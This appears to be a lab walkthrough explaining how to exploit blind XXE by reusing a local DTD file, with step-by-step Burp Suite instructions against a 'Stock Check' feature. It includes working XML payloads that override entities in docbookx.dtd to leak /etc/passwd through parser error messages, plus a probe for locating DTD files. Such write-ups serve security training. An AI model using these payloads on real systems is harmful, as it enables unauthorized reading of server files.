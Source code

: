 # ✨ Exploiting Blind XXE with Local DTD Reuse ✨

---

## 🔎 Understanding the Technique

This technique exploits blind XXE vulnerabilities when out-of-band (OOB) interactions are blocked. It involves:

- Using hybrid internal and external DTD declarations.
- Reusing a local DTD file on the server.
- Triggering XML parsing errors to exfiltrate sensitive data.

### Key Characteristics:
1. External DTD declarations cannot be loaded from remote servers due to OOB restrictions.
2. Internal DTDs can override entities from local external DTDs.
3. Parsing errors contain sensitive information.

---

### Example Attack Scenario

Assume a local DTD file exists at `/usr/local/app/schema.dtd` and defines an entity named `custom_entity`. An attacker can exploit this by sending the following malicious XML:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

### Steps:
1. **Define a parameter entity** (`local_dtd`) containing the local external DTD.
2. **Override the external entity** (`custom_entity`) with a malicious definition.
3. **Include the overridden entity** via the `local_dtd` parameter, triggering a parsing error.

---

## 🔧 Step-by-Step Lab Guide

This lab contains a **"Stock Check"** feature that parses XML input but does not display results. Let’s use it to exfiltrate `/etc/passwd` contents:

---

### ✅ Step 1: Navigate to a Product

Locate the product list and select any product:

![Screenshot 1](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

### ✅ Step 2: Trigger Stock Check

Scroll down and click **"Check Stock"**, with Burp Proxy enabled:

![Screenshot 2](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

### ✅ Step 3: Intercept the Request

In **Burp Suite**, open `Proxy -> HTTP History`, find the `POST` request to `/product/stock`, and send it to **Repeater**:

![Screenshot 3](https://github.com/user-attachments/assets/f2febc3e-4ab7-441e-8fb3-04990746f99f)

---

### ✅ Step 4: Insert the Malicious DTD

Replace the payload with the following DTD definition:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![Screenshot 4](https://github.com/user-attachments/assets/87784678-071c-4e1f-a766-b4add7e516cd)

---

### ✅ Step 5: Extract the Data

Send the request to retrieve `/etc/passwd` contents through the error output:

![Screenshot 5](https://github.com/user-attachments/assets/e6f9df34-6e44-46ea-81f9-16d3e6848ab3)

---

## 🔍 Finding a Local DTD for Reuse

1. **Identify existing DTD files:**
   - Check common paths like `/usr/share/yelp/dtd/docbookx.dtd`.

2. **Verify existence:**
   - Send a minimal payload to check file accessibility:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

3. **Analyze the DTD:**
   - Find publicly available copies of DTD files online to identify overridable entities.

---

## 🚀 Conclusion

This attack demonstrates how blind XXE vulnerabilities can be exploited even under strict OOB restrictions by reusing local DTD files on the server. It highlights the importance of:

- Restricting DTD processing in XML parsers.
- Limiting server access to sensitive files.

Happy hacking! 😉
